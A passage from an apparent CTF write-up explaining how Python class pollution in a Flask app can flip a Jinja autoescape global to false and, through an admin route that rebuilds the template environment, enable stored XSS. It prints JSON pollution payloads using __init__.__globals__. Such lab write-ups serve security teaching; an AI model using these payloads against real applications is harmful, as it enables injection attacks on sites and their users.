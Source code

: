 In here, we can see that the **public** blog posts are fetched from the database. Then, it uses Jinja template engine to render template `index.html`.

However, instead of just using `render_template` function, it creates a new Jinja environment. In the `Environment` class, we can see the `autoescape` attribute is set to variable `TEMPLATES_ESCAPE_ALL`, which is boolean value `True`.

According to [Jinja's official documentation](https://jinja.palletsprojects.com/en/3.1.x/api/#high-level-api), the `autoescape` attribute is to escape XML and HTML markup. By default, it's set to `False`.

Hmm... So no client-side vulnerability? Well, nope.

Remember, this web application is still vulnerable to Python class pollution vulnerability, so we can **pollute the `TEMPLATES_ESCAPE_ALL` variable to boolean value `False`** to achieve client-side vulnerability. More specifically, it's **stored XSS**.

**In the previous ["co2" challenge writeup](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2024/web/co2/README.md), we used a payload like this:**
```json
{
    "title":"literally_anything",
    "content":"literally_anything",
    "rating":"literally_anything",
    "referred":"literally_anything",
    "__init__":{
        "__globals__":{
            "flag": "true"
        }
    }
}
```

**We can do the exact same thing to variable `TEMPLATES_ESCAPE_ALL`!**
```json
{
    "title":"literally_anything",
    "content":"literally_anything",
    "rating":"literally_anything",
    "referred":"literally_anything",
    "__init__":{
        "__globals__":{
            "TEMPLATES_ESCAPE_ALL": false
        }
    }
}
```

But wait a minute, the Jinja environment won't get updated? Right?

**Unfortunately, there's a POST route at `/admin/update-accepted-templates` to update Jinja environment:**
```python
# Future Admin routes - FOR TEST ENVIRONMENT ONLY
@app.route("/admin/update-accepted-templates", methods=["POST"])
@login_required
def update_template():
    data = json.loads(request.data)
    # Enforce strict policy to filter all expressions
    if "policy" in data and data["policy"] == "strict":
        template_env.env = Environment(loader=PackageLoader("app", "templates"), autoescape=TEMPLATES_ESCAPE_ALL)
    # elif "policy" in data and data["policy"] == "lax":
    #     template_env.env = Environment(loader=PackageLoader("app", "templates"), autoescape=TEMPLATES_ESCAPE_NONE)
    # TO DO: Add more configurations for allowing LateX, XML etc. to be configured in app
    return jsonify({"success": "true"}), 200
```
